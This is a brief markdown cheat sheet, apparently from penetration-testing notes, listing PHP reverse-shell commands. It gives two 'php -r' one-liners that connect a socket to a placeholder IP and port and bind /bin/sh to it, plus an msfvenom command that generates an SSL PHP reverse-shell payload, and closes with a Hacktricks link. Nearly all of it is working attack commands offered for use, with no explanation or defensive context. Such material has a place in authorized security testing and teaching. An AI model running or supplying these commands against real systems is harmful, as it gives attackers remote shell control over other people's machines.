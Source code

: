 # PHP

## 01 - One-liners

```php
$ php -r '$sock=fsockopen("<IP>", <PORT>);exec("/bin/sh -i <&3 >&3 2>&3");'

$ php -r '$sock=fsockopen("<IP>", <PORT>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'
```

## 02 - Generate via `msfvenom`

```
$ msfvenom -p cmd/unix/reverse_php_ssl handlersslcert=[/path/to/file.pem] sslversion=[Auto | TLS | SSL23 | SSL3 | TLS1 | TLS1.1 | TLS1.2] lhost=<IP> lport=<PORT>
```

---
## References

### Hacktricks

- [Hacktricks: Shells Linux](https://book.hacktricks.wiki/en/generic-hacking/reverse-shells/linux.html)